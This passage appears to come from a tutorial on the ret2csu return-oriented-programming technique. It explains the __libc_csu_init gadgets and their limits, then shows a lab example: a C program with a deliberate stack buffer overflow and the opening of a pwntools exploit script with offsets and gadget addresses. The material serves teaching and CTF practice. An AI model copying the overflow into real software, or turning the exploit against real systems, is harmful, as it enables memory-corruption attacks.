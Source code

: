 We see that the program compares `rbp` and `rbx`, and if they are different, it will go back to the top of "csu part 1". Since just now we set `rbx` to 0, we should set `rbp` to 1, so that they can be the same and we avoid the `jne` instruction.

### Back to where we started
Now we are back to csu part 1, or almost. With an extra instruction,
```
0x004005e6      4883c408       add rsp, 8
```

Either we can do another ret2_csu_init attack, or return to somewhere else.

### Summary
In short,
1) csu part 1 allows us to control 6 registers
2) csu part 2 allows us to make those 6 registers useful to execute any function we like
3) Defeats ASLR

### Limitations
1) We may need quite a big buffer overflow since we need to fill in 6 different 64-bit registers.
2) Need to bypass PIE or CANARY first.

## Example - level 5 from [ROP_STEP_BY_STEP](https://github.com/zhengmin1989/ROP_STEP_BY_STEP/tree/master/linux_x64)
### Source
```c
#undef _FORTIFY_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function() {
	char buf[128];
	read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
	write(STDOUT_FILENO, "Hello, World\n", 13);
	vulnerable_function();
}
```

Compile with `fno-pie` and `fno-stack-protector`.

The binary provided in the link above is compiled using a very old gcc, so the csu function uses `mov` instructions instead of `pop`. However functionality in general is the same.

### Exploit
Using a De-Brujin pattern we can obtain that the offset is 136.

Prepare our exploit script with pwntools.
```python
from pwn import *
from LibcSearcher import *

# obtained from https://github.com/zhengmin1989/ROP_STEP_BY_STEP/tree/master/linux_x64
binary_name = 'level5'
p = process(binary_name)
elf = ELF(binary_name)

offset = 136

csu1 = 0x4005ea
csu2 = 0x4005d0
```
